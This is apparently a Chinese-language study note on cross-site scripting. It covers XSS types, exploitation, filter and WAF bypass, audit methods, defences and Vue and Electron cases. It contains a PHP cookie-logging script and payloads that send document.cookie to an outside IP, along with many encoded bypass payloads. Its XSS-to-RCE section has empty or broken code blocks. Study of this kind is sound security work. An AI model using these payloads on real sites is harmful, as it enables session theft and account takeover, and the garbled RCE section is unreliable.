


# XSS

## 什么是XSS？

> https://xz.aliyun.com/t/9606
>
> 参考资料：《xss跨站脚本攻击刨析与防御》,
>
> [xss cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#event-handlers):

- XSS也是一种代码注入攻击，和sql注入一样，都是我们输入的数据变成了功能执行。
- 跨站脚本攻击XSS(Cross Site Scripting)：指的是当用户输入的数据会输出到了html页面时，攻击者构造一段恶意的javascript代码，然后当用户浏览该页面时，该恶意js代码会被执行，执行想要的功能.
- js代码是浏览器执行的，而不是服务器执行的，所以攻击的是用户而不是服务器。
- xss分为三类：
    - 存储型XSS ：
        - 构造的恶意js代码是会存储在服务器数据库中的，是一种持久化的XSS。例如在个人信息或发表文章等地方，插入一段js代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，**当有用户访问该页面的时候就会触发该代码执行**。这种XSS比较危险，容易造成蠕虫，盗窃cookie等危害。
    - 反射型 ：
        - 非持久化的xss，不会存储在服务器中。比如有个搜索框，然后会将我们的输入输出出来，输入数据不存储在服务器中，这样攻击者输入恶意js代码，攻击者浏览器会执行该恶意js代码，但是攻击不到其他人啊，所以这时候会发送一个恶意链接给其他用户(当输入数据会显示在url里面时)，使得可以在其他用户的浏览器上执行该恶意js代码，大多数是用来盗取用户的Cookie信息。
    - DOMXSS：
        - DOM型的XSS是基于文档对象模型Document Objeet Model，DOM)的一种漏洞。
        - DOM中有很多对象，其中一些是用户可以操纵的，如uRI ，location，refelTer等。客户端的脚本程序可以通过DOM动态地检查和修改页面内容，它不依赖于提交数据到服务器端，而从客户端获得DOM中的数据在本地执行，如果DOM中的数据没有经过严格确认，就会产生DOM XSS漏洞。
        - 例如服务器端经常使用document.boby.innerHtml等函数动态生成html页面，如果这些函数在引用某些变量时没有进行过滤或检查，就会产生DOM型的XSS。DOM型XSS可能是存储型，也有可能是反射型。
        - 我们输入的数据会被注入到html的DOM节点中。然后dom节点也会输出到页面中。
- xss漏洞的危害：
    - 窃取用户cookies，获取用户信息，利用用户身份对网站进行操作。
    - 进行恶意操作，例如篡改页面信息，删除文章等。
    - 控制受害者及其向其他网站发起进攻。
    - 结合csrf漏洞。
    - 网页嵌入挖矿脚本.
    - xss蠕虫
    - DOS攻击和DDOS攻击：创建一个死循环的代码就会导致这个问题

## 靶机搭建

- [pikachu](https://github.com/zhuifengshaonianhanlu/pikachu):本地搭建

- [alert(1) to win](https://alf.nu/alert1):在线

## XSS的利用

### 存储型XSS的利用:

> https://cloud.tencent.com/developer/article/1197852

- **盗取cookie:**

    - cookie的一些常用属性: Domain,Expires,HttpOnly(用于避免Cookie被Javascript访问),Name,Path,Value,Secure.

    - 当HttpOnly未设置时(有些网站会设置,有些不会,像知乎就没设置),js获取cookie代码`document.cookie`

    - 通过http请求携带cookie给我们:  

        - vps上设置php脚本或者利用nc开个端口监听就行

            ```php
            <?php
            $cookie = $_GET['cookie'];
            $log = fopen("cookie.txt", "a");
            fwrite($log, $cookie . "\n");
            fclose($log);
            ?>
            ```

        - payload

            ```html
            <script>document.location="http://172.26.31.208/?cookie="+document.cookie</script>
            
            <script>new Image().src="http://172.26.31.208/?cookie="+document.cookie</script>
            
            ```


- 利用Ajax技术进行恶意操作:

    - 示例：赣网杯web4

- 进行端口扫描
- 获取客户端ip地址

### 反射型XSS的利用:

- 反射型xss需要自己构造恶意链接,或者恶意网页,具体payload和存储型xss一样。
- 盗取cookie：
    - 当出现漏洞的输入可以通过url输入时，比如一个get请求。
        - 即我们构造的payload也会显示在url上面，直接构造一个`http://xxx.com/?name=<script>document.location="http://172.26.31.208/?cookie="+document.cookie</script>`payload经过url编码后发送该url给用户。
        - 当用户点击该恶意链接，就会将cookie发送至172.26.32.208这台主机了。
    - **当输入无法通过url输入时，比如post请求。**
        - 需要自己构造一个恶意网页，里面构造了一个post表单，action的ur填写的是有漏洞的网站，所以这个表单的数据会发送到有漏洞的服务器（因为表单是可以跨域的）。然后将该恶意网页的url发送给用户。
- xss网络钓鱼:
    - 传统的钓鱼攻击是通过复制目标网站，然后发送该网站域名是用户来进行交互，但是这种域名不是和原网站一样的，很容易就被发现。而结合xss之后，会使得钓鱼的欺骗性大大提升。
    - 传统的网络钓鱼示例：

### DOM型XSS的利用:

- Dom Xss 相比反射型 XSS，脑袋需要多思考一层。 也就是说， 我们关注的不仅是【输出】了什么，还要了解这个页面里，【javascript】拿这个【输出】干了什么。 

### XSS平台或者xss利用工具

- 如果js代码水平不够，可以使用xss平台或者xss利用工具来利用xss漏洞。
- 本质上是这些提供一个js文件，我们在xss漏洞处加载这个js文件就可以了。
- https://xss.pt/


## **怎样插入XSS？**

- [xss cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#event-handlers):这份备忘录记录了各种各样的xss代码，以及各种各样的绕过方式和payload在哪些浏览器上可以执行。

- html中使用js代码的方式：

    - **直接写在`<script></script>`标签内:**

        ```javascript
        <script type="text/javascript">
        	document.write('这里是一行JavaScript代码1');
        </script>
        
        <script>alert(document.cookie)</script>
        ```
    
    - 在属性值中使用javascript伪协议：
    
        - **可以通过[xss cheet sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#protocols)查看哪些属性支持js伪协议。**
    
        - 一般的输入url的属性是可以传入js伪协议的。
    
            - **为防恶意代码注入，一些新版本的浏览器已经禁用src属性的JavaScript伪协议，所以img标签的src属性不能用了，background这个属性也不能用了**。
    
            - 在`<a href="">`，`<iframe src="" >`，`<form action="" >`等可以使用
    
            - 可以使用多行js语句，但是需要`;`分隔。
            ```html
            <a href="javascript:var now = new Date(); '<h1>The time is:</h1>' + now;">hello</a>
            <a href=javascript:eval(alert('xss'))>aa</a> 
            
            <iframe src=javascript:alert('xss')><iframe> 
            
            <form action=javascript:alert('xss')> 
            <form action=javascript:alert('xss') method="get"> <form action=javascript:alert('xss')> 
            
            ```
            
            - 在url中还可以使用其他的伪协议：比如`data`
            
            - data协议支持以下2种类型：
            
                ```html
                data:text/html,HTML代码
                data:text/html;base64,base64编码的HTML代码
                ```
            
            - 会使用html解析器去执行该html代码。
            
                ```html
                <iframe src="data:text/html,<script>alert('xss')</script>"></iframe> 
                <iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>
                <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
                
                <form method=post action="data:text/html;base64,<script>alert('xss')</script>">
                <form method=post action="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
                ```
    
    - **在html标签内通过事件来调用js代码：**
    
        - [事件参考手册]（https://www.w3school.com.cn/tags/html_ref_eventattributes.asp）
    
        - `标签`,`<video>标签`等
    
            ```html
            
            <!--多行js语句使用;分隔，而且可以加或者不加引号包裹js代码-->
            
            <a 		href="" 				onclick=eval(alert('xss'))>aa</a> 
            <input 	value="" 				onclick=alert('xss') type="text"> 
            <input 	name="name" value="" 	onmouseover=prompt('xss') bad=""> 
            <iframe src="aaa" 				onmouseover=alert('xss') /><iframe> 
            <style 							οnlοad=alert(1)></style>
            <body 							οnlοad=alert(1)>
            <form action=1 					onmouseover=alert('xss)> 
            ```
    
    - **CSS样式表中嵌入js代码：**
    
        - 测试了几个都没成功执行js代码。
    
    - **加载远程js文件**
    
        - **外部引用JavaScript文件。**
            - 如`<script type="text/javascript" src="../js/jquery-1.8.3.js"></script>`（相对路径）
            - 或`<script src="http://common.cnblogs.com/script/jquery.js" type="text/javascript"></script>`（绝对路径）；
        - **在js代码中基于DOM的方式引用外部js文件：**
    
            ```javascript
            <script>
              window.onload = function(){
                var script = document.createElement("script");
                script.setAttribute("type","text/javascript");
                script.src = "http://common.cnblogs.com/script/jquery.js";
                document.getElementsByTagName("head")[0].appendChild(script);  
              }
            </script>
            ```
    
- **根据之前的html和js的解析顺序，我们知道首先要闭合html标签，使得html解析不产生问题。然后根据情况选择上述任意方法插入js代码。**

- 最简单的就是闭合前后的标签，中间插入`<script>alert()</script>`来执行js代码。

    ```html
    <div id="用户输入"></div> 
    <!-- 插入  "><script>alert(1)</script><div  -->
    
    <!--拼接之后-->
    <div id=""><script>alert(1)</script><div></div>
    ```

## 绕过waf

- 基本知识:

    - **输出在html标签之间，过滤转义<>等，绕不过的，放弃。**

    - js的注释只会注释到js所在区域,不会注释到html上.

    - 当匹配到一个`<script>`后需要匹配到`</script>`才算是一个js区域,如果`<script>`里面还添加`<script>`,改区域内js代码就出错了.

    - html对大小写不敏感，js对大小写敏感。

    - 当输出点位于下列这些HTML标签之间时，Javascript脚本是无法执行的

        ```
        <title></title>
        <textarea></textarea>
        <xmp></xmp>
        <iframe></iframe>
        <noscript></noscript>
        <noframes></noframes>
        <plaintext></plaintext>
        
        例如：
        代码<title><script>alert`1`</script></title>是不会弹框的,只能闭合前面标签。
        ```

    - 不能相互嵌套的标签：

        -  `<script>`和`<style>`这两类标签是无法相互嵌套的，如果这两种标签嵌套使用，则代码不生效
        -  `<style>`标签中的JS代码也是不会被执行/生效的，反之也一样。

    - javascript是弱类型语言：

        -  `<a href="javascript:alert(1)sda6415">click me</a>`
        -  当alert(1)后面出现其他字符时，alert(1)是无法正常弹窗的，常见方法是使用注释符//将后面多于内容注释掉。
        -  但由于javascript是弱类型语言，我们可以使用逻辑运算符|  ||  &  && -  这些符号把alert后面多余内容给分割掉。经测试，当前仅IE浏览器不支持这种方法。

    - eval()函数:

        -  javascript中有个原生函数，eval()，该函数可执行字符串，重点是它可以解析16进制、8进制的编码

            ```
            16进制的例子：
            
            <script>eval("\u0061\u006c\u0065\u0072\u0074\u0060\u0031\u0060")</script>
            
            <script>eval("\x61\x6c\x65\x72\x74\x28\x27\u4f60\u597d\x27\x29")</script>
            
            8进制的例子：
            
            <script>eval("\141\154\145\162\164\50\47\u4f60\u597d\47\51");</script>
            ```

        -  eval（）虽然不能直接执行10进制形式的脚本，但可以配合String.fromCode()函数使用，该函数可以将数字转换为ASCII值。例子如下：

            ```html
            <iframe src="javAScript:eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))"></iframe>
            ```

- 当进行绕过的时候，要清楚我们使用的是哪一种js代码注入方式，网站进行了哪些防御措施。

- 通用

    -  利用编码绕过

        -  当属性值的payload被检测时（比如检测js伪协议的javascript字符，检测事件内的js关键字）
            -  对属性值进行html编码（十进制，16进制，在数字前面添加多个0）：原理在解析顺序那里讲解了。
                -  `<a href="jav&#0000000000097script:alert('xss')">aa</a>`

        -  利用JavaScript的unicode进行编码绕过:
        -  混合编码绕过

    -  检测关键字：

        - 检测js的一些函数名

            -  当检测javascript，eval，alert等关键字的时候，可以采用（tab键，回车键等）分割这些字符串。

                -  具体哪些字符有用，可以通过自己FUZZ测试得到。

                -  `<a href="javas&#09;cript:ale&#09;rt('xss')">aa</a> `

                -  因为js代码以分号或者判断完整的js代码来当作一行代码的结束，如果js引擎到换行处发现并不是一个完整的js语句，那么会继续处理发现的内容，换行被忽略掉，知道发现下一个分号或者语句完整为止。
                ```html
                <a href="javas
                cript:
                alert('xss')">aa</a> 
                ```
        
            -  集合eval和String.formCharCode()函数进行绕过。
        
            - 使用jsfuck语言

- 绕过过滤：

    -  双写
    -  大小写
    -  如果只是过滤了 `<script>`等，可以在该标签内加入属性值。
    -  引号被转义：

- 绕过替换：

   -  怎么查看传入的字符是否被转义了？查看网页源码就行。
   -  用\转义了引号，输入时添加一个\，把得到的\转义掉.
   -  JSON.stringify(s)
       -  JSON.stringify(),其实就是在我们输入的字符串两边加上双引号，并且在输入的双引号等特殊字符(引号,反斜杠等)前加反斜杠。
       -   由于前面有双引号无法消除，所以我们考虑用`</script>`标签闭合前面的.
       -  当然这时候漏洞的输入点, 不能是在标签属性值里面.只能是在标签外面
   -  html实体转义


## 挖掘XSS漏洞的思路

- 黑盒测试
- 尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：

  - URL的每一个参数
    - URL本身
    - 表单
    - 搜索框
- 检验它们是否受到控制，然后跟踪这些变量的传递过程，分析它们是否被htmlencode()之类的函数过滤
- 白盒测试
  - 关于XSS的代码审计主要就是从接收参数的地方和一些关键词入手。
    - PHP中常见的接收参数的方式有`$_GET，$_POST，$_REQUEST`等等，可以搜索所有接收参数的地方。然后对接收到的数据进行跟踪，看看有没有输出到页面中，然后看输出到页面中的数据是否进行了过滤和html编码等处理。
    - 也可以搜索类似echo这样的输出语句，跟踪输出的变量是从哪里来的，我们是否能控制，如果从数据库中取的，是否能控制存到数据库中的数据，存到数据库之前有没有进行过滤等等。

  - 大多数程序会对接收参数封装在公共文件的函数中统一调用，我们就需要审计这些公共函数看有没有过滤，能否绕过等等。
  - 同理审计DOM型注入可以搜索一些js操作DOM元素的关键词进行审计
- 常见业务场景
  - 重灾区：评论区、留言区、个人信息、订单信息等
  - 针对型：站内信、网页即时通讯、私信、意见反馈
  - 存在风险：搜索框、当前目录、图片属性等


## XSS的防御

- 对用户任何输出到页面的输入参数都进行过滤，当输出到html页面时对数据使用htmlspecialchars函数（根据预定义字符对用户输入的参数进行html实体字符编码）将其转换为html字符实体。
- 对输入的内容进行过滤，可以分为黑名单过滤和白名单过滤。黑名单过滤虽然可以拦截大部分的XSS攻击，但是还是存在被绕过的风险。白名单过滤虽然可以基本杜绝XSS攻击，但是真实环境中一般是不能进行如此严格的白名单过滤的。
- **HttpOnly是指仅在Http层面上传输的Cookie，当设置了HttpOnly标志后，客户端js脚本就无法读取Cookie数据**。
- 针对解码问题：
    - 浏览器针对页面中url的解码顺序。首先肯定是html解码，然后是url，然后是js解码。
    - 那么用户的输入先进行js编码，然后url编码，然后实体编码。这样按照顺序解码，攻击者的编码的就不会被浏览器解码了。

- **CSP:**
    - Content Security Policy，简称 CSP，译作内容安全策略。顾名思义，这个规范与内容安全有关，主要是用来定义哪些资源可以被当前页面加载，减少 XSS 的发生。
    - CSP 有三类：
        - Content-Security-Policy (Google Chrome)
        - X-Content-Security-Policy (Firefox)
        - X-WebKit-CSP (WebKit-based browsers, e.g. Safari)
    - HTTP Content-Security-Policy 头可以指定一个或多个资源是安全的，
    - 而Content-Security-Policy-Report-Only则是允许服务器检查（非强制）一个策略。多个头的策略定义由优先采用最先定义的。
    - 待补充


## VUE下的XSS：

> https://www.freebuf.com/articles/web/257944.html

- 我们来看一段模板代码

    ```
    <template>
       <div>{{ xssText  }}<div>
    </template>
    ```

    这种操作有害吗？no，完全无害，我来分析一下

    ```stylus
    createElement( 'div', {}, xxsText ) // 创建vnode
    ```

- vue 在 patchVnode（ 虚拟dom 生成 真实dom ）有如下代码 处理子节点

- 

    -   红框部分意思是 如果 vnode 子节点为 基本类型 如字符串，那么该文本会通过createTextNode方法 生成 文本节点，然后插入父节点


    - 所以 很明显 xssText 被 createTextNode 处理成了纯字符串了，变成无害的了，

- **对于在vue中，输出在标签之中的数据，利用v-bind指令，或者{{message}}的就没有xss注入了。**

-  但是数据插值有时候需要向页面中插入富文本信息，这时候可能需要用到**v-html标签。**

    - 示例模版：

        ```
        <p v-html="message"></p>
        ```

        vue模版渲染代码：

        ```
        function anonymous() {
          with(this) {
            return _c('p', {
              domProps: {
                "innerHTML": _s(message)
              }
            }, [])
          }
        }
        ```

        可以看的v-html标签底层实际上使用了 Dom元素的innerHTML属性进行数据插入。**而 innerHTML属性在被插入不信任数据的时候就会导致JS注入的问题。**

- **vue属性绑定可能会导致xss**：

    - web前端开发中除了数据内容填充，同时也需要对标签的属性进行数据绑定操作。

    - vue中我们使用v-bind 标签属性进行数据绑定，这些数据的插值也是通过浏览器原生api对数据进行转码插入。由于浏览器自身api安全的保障，数据插入**一般不会造成闭合属性导致的xss问题。**

    - 往往是开发人员安全意识缺失，在对标签属性进行数据绑定的时候，忽略对于某些标签的危险属性绑定时的特殊处理。

        我们知道，**特殊标签的某些属性，可以在属性值可控的情况下进行js代码注入**。这样又回到了通用场景下 xss

    ```
    web危险属性大致有：
    
    所有元素的style属性。（应避免用户输入数据绑定到标签的style属性中，防范钓鱼攻击。）
    
    a 标签的 href 属性。（正常情况应保证url 协议是http 和 https）
    
    iframe 标签的 src 属性。（要防止通过 javascript://  执行js）
    object 标签的 data 属性 。（要防止通过 javascript://  执行js.）
    
    form  的 action 属性（要防止通过 javascript://  执行js.）
    
    防护知识：对于src 、href 、action 、 data 这类可以赋值为uri的属性要限制好协议和请求的url，尽量保证使用http:// 和 https:// 协议及访问可信的资源服务器 。
    ```

## CTF中的XSS题目

## 中间件的XSS漏洞

## XSS to RCE

为了大大提升 XSS 的危害，我们可以利用 JavaScript 来执行系统命令。

#### 使用 child_process 执行系统命令(nodeJS环境)

如果目标环境启用了 **NodeJS** 的话，我们也可以利用 NodeJS 的子进程（child_process）调用并执行系统命令：

```


');">


如果禁用require 函数，限制了通过require 引入child_process 执行系统命令的方法，不过没关系，我们还有process 
```

**Electron也可以访问nodejs环境啊，所以也会存在xss to rce，可以关注Electron项目**

> https://www.anquanke.com/post/id/170665?display=mobile

### Xmind 2020 XSS 漏洞

XMind 是一款专业的商业思维导图软件，Electron开发。

2021年5月10日，被爆 Xmind 2020 中存在 XSS 漏洞，攻击者可以借助该漏洞实现命令执行，在实际环境中借助钓鱼攻击可能造成更严重的危害。

漏洞利用很简单，在 “思维导图” 中输出 Payload：

``




由于 Xmind 启用了 NodeJS 功能，所以我们可以利用 child_process 调用并执行系统命令。这和蚁剑的 XSS 导致 RCE 原理如出一辙：https://www.heibai.org/post/1152.html


